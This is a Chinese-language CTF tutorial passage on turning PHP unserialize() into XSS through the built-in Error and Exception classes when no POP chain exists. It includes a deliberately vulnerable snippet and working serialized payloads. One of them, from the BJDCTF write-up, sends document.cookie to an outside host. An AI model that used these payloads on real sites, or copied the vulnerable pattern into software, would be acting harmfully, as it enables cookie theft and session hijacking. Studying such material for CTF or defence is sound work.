 这里可以看到是一个反序列化函数，但是没有让我们进行反序列化的类，这就遇到了一个反序列化但没有POP链的情况，所以只能找到PHP内置类来进行反序列化

poc:

```php
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```

直接可以弹出xss，触发了xss漏洞

### Exception内置类

- 适用于php5、7版本
- 开启报错的情况下

原理是类似的

测试代码

```php
<?php
$a = unserialize($_GET['cmd']);
echo $a;
?> 
```

poc

```php
<?php
$a = new Exception("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```

###  [BJDCTF 2nd]xss之光

首先进入题目中，我们找到git泄露拿到源码

```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

这就是一个典型的反序列化函数，但是没有给出反序列化的类，我们无法构造pop链，只有利用php内置类来反序列化，加上一个echo，我们就可以利用`Error`内置类来`XSS`

payload

```
<?php
$poc = new Exception("<script>window.open('http://de28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn/?'+document.cookie);</script>");
echo urlencode(serialize($poc));
?>
```
